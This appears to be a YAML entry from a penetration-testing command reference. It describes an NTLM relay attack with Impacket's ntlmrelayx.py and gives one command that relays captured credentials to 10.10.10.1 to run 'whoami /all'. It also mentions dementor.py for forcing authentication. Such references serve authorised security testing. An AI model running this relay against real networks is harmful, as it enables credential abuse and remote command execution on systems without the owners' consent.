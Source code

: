 ```yaml
---
description: |
  Impacket's ntlmrelayx.py performs NTLM Relay Attacks, creating an SMB and HTTP server and relaying credentials to various different protocols (SMB, HTTP, LDAP, etc.). 

  The below command creates an SMB relay server that targets the IP 10.10.10.1, meaning any credentials that the SMB server recieves, gets relayed to that IP to attempt to authenticate and execute 'whoami /all'. In order for the SMB server to recieve credentials to relay, dementor.py can be used to trigger a forced authentication from the IP it's targeting to an attacker controlled SMB server. 

  Command Reference:

  	Target IP: 10.10.10.1

items:
  No_Creds:
    - code: |
        python3 ntlmrelayx.py -smb2support -t smb://10.10.10.1 -c 'whoami /all' -debug
---
```

